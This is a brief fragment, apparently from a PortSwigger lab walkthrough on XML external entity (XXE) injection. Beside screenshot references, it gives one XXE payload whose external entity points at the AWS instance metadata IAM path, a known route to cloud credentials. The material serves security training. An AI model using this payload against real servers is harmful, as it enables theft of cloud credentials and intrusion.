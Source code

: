 ![meta-data](/docs/assets/images/portswigger/xxe/xxe09.png)

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>` 
